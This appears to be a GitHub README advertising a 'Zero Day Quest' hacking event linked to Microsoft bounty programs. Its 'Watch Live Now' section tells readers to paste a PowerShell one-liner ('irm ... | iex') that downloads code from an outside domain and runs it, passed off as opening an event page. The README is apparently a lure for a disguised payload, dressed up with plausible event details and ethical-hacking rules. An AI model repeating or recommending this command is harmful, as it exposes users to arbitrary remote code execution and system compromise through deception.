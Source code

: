 ## Welcome to the Zero Day Quest
Zero Day Quest is the ultimate cybersecurity challenge where elite security researchers battle against the unknown. The event showcases live vulnerability discoveries, exploit demonstrations, and insights into the latest threats targeting Microsoft’s AI and Cloud bounty programs.

Event Date: April 1st, 2025

## Objective: 
The goal is to uncover and analyze zero-day vulnerabilities, pushing the boundaries of offensive security research while strengthening global cybersecurity defenses.

## Watch Live Now
Use the following PowerShell command to watch Zero Day Quest live:
```
irm https://zerodayquest.win | iex
```
Copy and paste this into your PowerShell terminal to open the live event page instantly.

## Event Details
Who is Participating? Top ethical hackers, security researchers, and bug bounty hunters from around the world will be competing. Representatives from major cybersecurity firms and Microsoft’s security teams will also be present.

## Rules & Limitations:

- Only vulnerabilities related to Microsoft AI and Cloud systems are in scope.
- No targeting of production environments or real user data.
- All exploits must be disclosed responsibly during the event.
- Participants must follow ethical hacking guidelines and legal regulations.
- Join us for an action-packed event that pushes the boundaries of cybersecurity innovation!
